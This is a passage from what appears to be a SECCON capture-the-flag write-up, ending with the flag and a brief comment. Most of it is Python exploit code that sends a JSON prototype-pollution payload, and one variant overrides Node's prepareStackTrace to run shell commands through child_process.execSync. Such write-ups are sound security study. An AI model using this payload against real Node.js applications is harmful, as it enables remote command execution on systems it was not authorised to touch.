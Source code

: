 ```python
        },
        # Cause an error
        "toString": {
            "caller": {},
        },
    })


def solve3() -> str:
    # Solution 3:
    return json.dumps({
        "__proto__": {
            # ref. https://github.com/nodejs/node/blob/v20.6.0/lib/internal/errors.js#L140
            "prepareStackTrace": {
                "__custom__": True,
                "type": "Function",
                "args": [
                    f"console.log(global.process.mainModule.require('child_process').execSync('{command}').toString())"
                ],

            },
        },
        # Cause an error
        "toString": {
            "caller": {},
        },
    })


input_str = solve1()
# input_str = solve2()
# input_str = solve3()

io.sendlineafter(b"Input your JSON: ", input_str.encode())
print(io.recvall().decode())
```

### Flag

```
SECCON{Deno_i5_an_anagr4m_0f_Node}
```

JavaScript is an insane and interesting language!
